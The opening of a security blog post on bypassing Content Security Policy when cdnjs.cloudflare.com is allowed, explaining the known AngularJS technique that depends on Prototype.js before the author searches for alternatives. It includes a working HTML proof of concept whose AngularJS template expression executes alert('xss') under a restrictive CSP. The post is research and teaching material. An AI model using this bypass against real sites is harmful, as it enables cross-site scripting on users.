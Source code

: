 ```yaml
---
title: Who pollutes your prototype? Find the libs on cdnjs in an automated way
catalog: true
date: 2022-09-01 19:31:10
tags: [Security]
categories: [Security]
translator: huli
photos: /img/angularjs-csp-bypass-cdnjs/cover-en.png
---
```


<img src="/img/angularjs-csp-bypass-cdnjs/cover-en.png" style="display:none">

When it comes to CSP bypass, a kind of technique using AngularJS is well-known. One of it's variant requires another library called `Prototype.js` to make it works.

After understanding how it works, I began to wonder if there are other libraries on cdnjs that can do similar things, so I started researching.

This article will start with the CSP bypass of cdnjs, talk about why prototype.js is needed, and then mention how I found its replacement on cdnjs.



## cdnjs + AngularJS CSP bypass

Putting `https://cdnjs.cloudflare.com` in the CSP is actually a very dangerous thing, because there is a way that many people know to bypass this CSP.

For details, please refer to these two articles:

1. [Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)
2. [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22)

The bypass is as follows:

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass</title>
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      {{$on.curry.call().alert('xss')}}
    </div>
  </body>
</html>
```
